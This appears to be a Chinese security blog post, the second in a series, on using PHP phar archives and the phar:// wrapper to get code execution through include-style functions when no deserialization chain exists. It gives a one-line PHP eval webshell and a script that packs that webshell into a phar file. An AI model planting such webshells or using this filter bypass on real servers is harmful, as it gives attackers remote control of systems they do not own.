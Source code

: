 ```yaml
---
layout: post
title: "php新攻击面-phar探究2"
subtitle: "pahr in new php wrold"
author: "Rand0m ^ Novocaine#p1an0@qq.com"
header-img: "img/post-bg-dreamer.jpg"
header-mask: 0.4
tags:
  - WEB
  - php
---
```


前言
--
- 第一版phar的文在前面，写的没Magic_zer0师傅写得好，最好看看Magic_zer0师傅的文。
- 我对eval,assert等可以执行代码的函数有个比较宽泛的概念叫**执行域**，这个名字是**老子瞎b起的**，在前端攻防下，我认为的代码执行域就是**\<script>**标签内及**on事件**内等可以解析js语法的空间，也许在微观的安全行业有其他名词解释这个事情，但是**老子不在乎**，这是老子的博客，老子爱叫啥叫啥。
-  上一期我们探究了phar在反序列化中的应用，在没有反序列化利用链时应该怎么利用呢？
0x01 没有反序列化的phar
==
上回书说到，phar是php内部的一个压缩文件，我们通过phar://伪协议来解压缩并读取其中的内容，上次我们压缩的是一个序列化对象(meta-data)，这次我们想想能不能压缩代码，再带入php代码执行域中？
先来看看php代码执行域有哪些？
```
call_user_func,eval,assert...
include,require,include_once,require_once...
```
我把我想得起来的分成了两行，第一行是控制字符串，第二行是控制文件，都可以起到rce的作用，而phar是构造一个phar文件，用phar伪协议解压缩，所以我们考虑第二种的利用方式。
**当然第二种整个包含文件可控就不用废话了，这里说的是用phar bypass一些过滤**
0x02 How to make a phar file 2
==
- 在自己的环境中需要把pahr.readonly设置为Off
- 创建一个文件夹，名字随便
- 文件夹内编写一个php webshell
- 在文件夹同级目录编写phar生成器。
这里我创建文件夹名为aaa
webshell名为webshell.php
phar生成器名为Rand0mPhar.php
所以目录结构应该是
```
aaa/webshell.php
Rand0mPhar.php
```

webshell.php
```php
<?php eval($_POST[1]);?>
```
Rand0mPhar.php
```php
<?php
$phar = new Phar('eval.phar'); //生成的phar文件名
$phar->buildFromDirectory(__DIR__.'/aaa', '/.php$/');
$phar->compressFiles(Phar::GZ);
$phar->stopBuffering();
$phar->setStub($phar->createDefaultStub('webshell.php'));
?>
```
